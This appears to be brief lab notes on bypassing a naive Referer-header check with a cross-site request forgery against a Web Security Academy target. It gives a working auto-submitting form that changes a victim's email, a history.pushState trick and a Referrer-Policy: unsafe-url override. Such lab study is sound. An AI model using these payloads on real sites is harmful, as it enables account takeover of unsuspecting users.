 # CSRF Vulnerability - Referer Header


## Let generate some Payloads!

```php
<script>history.pushState("", "", "/?X.web-security-academy.net")</script>

<form method='POST' action="https:/X.web-security-academy.net/my-account/change-email">
	<input type="text" name="email" value="test@normal-user.net">
</form>
<script>
	document.forms[0].submit();
</script>
```

## Takeaway

- Some applications validate the Referer header in a naive way that can be bypassed. For example, if the application validates that the domain in the Referer starts with the expected value, then the attacker can place this as a subdomain of their own domain:

```php
<script>history.pushState("", "", "/?X.web-security-academy.net")</script>
```

- This will cause the Referer header in the generated request to contain the URL of the target site in the query string.


 many browsers now strip the query string from the Referer header by default.
 - To fix this, we override the behaviour! using in the head:

 ```
 Referrer-Policy: unsafe-url
 ```
